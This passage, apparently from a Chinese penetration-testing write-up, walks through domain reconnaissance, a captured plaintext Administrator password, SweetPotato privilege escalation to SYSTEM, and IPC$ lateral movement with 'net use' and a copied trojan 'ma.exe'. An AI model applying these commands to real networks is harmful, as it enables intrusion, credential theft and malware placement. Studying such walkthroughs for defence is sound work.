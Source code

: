     
    
    nltest /domain\_trusts  获取域信任信息  
    

![](https://gitee.com/fuli009/images/raw/master/public/20230228095105.png)

### 抓取hash

在内网渗透中，很多横向移动的方法都需要先获取用户的密码或者Hash值才能进行，比如哈希传递攻击、票据传递等等。

因为目标机是windows server 2008，所以直接抓到了明文密码：

![](https://gitee.com/fuli009/images/raw/master/public/20230228095106.png)

得到明文密码：`Administrator/Psft24680!!@@62##`

### 提权

因为当前是一个Administrator权限，当前主机补丁打得也比较少，所以这里尝试利用甜土豆提权到system，提权成功反弹回来一个system权限的会话

![](https://gitee.com/fuli009/images/raw/master/public/20230228095107.png)

![](https://gitee.com/fuli009/images/raw/master/public/20230228095108.png)

## 0x03横向移动

### IPC$横向

IPC$
是共享“命名管道”的资源，它是为了让进程间通信而开放的命名管道，可以通过验证用户名和密码获得相应的权限，在远程管理计算机和查看计算机的共享资源时使用。利用IPC$可以与目标主机建立一个连接，利用这个连接，可以实现远程登陆及对默认共享的访问、访问目标机器的文件，上传、下载，也可以在目标机器上运行命令等。

#### 使用条件

• 管理员开启了默认共享

默认共享是为了方便管理员远程管理而默认开启的共享，我们通过IPC连接可以实现对这些默认共享的访问。可以通过net
share命令查看，前期信息收集时，就已经查看过当前主机是开启了默认共享的。

• 139、445端口开启

IPC连接需要139或445端口来支持，我们可以通过139和445端口来实现对共享文件/打印机的访问，IPC$连接默认会走445端口，不通的话会走139端口，这两个端口都可以单独实现文件共享。

当前主机满足上述IPC的利用条件，所以先尝试做IPC连接，发现10.23可以连接成功

    
    
    shell net use \\\\192.168.10.23\\ipc$ "Psft24680!!@@62##" /user:"Administrator"  
    

![](https://gitee.com/fuli009/images/raw/master/public/20230228095109.png)

然后在本机传个马，copy过去

    
    
    shell copy C:\\Windows\\Temp\\ma.exe \\\\192.168.10.23\\c$\\Windows\\Temp\\ma.exe  
    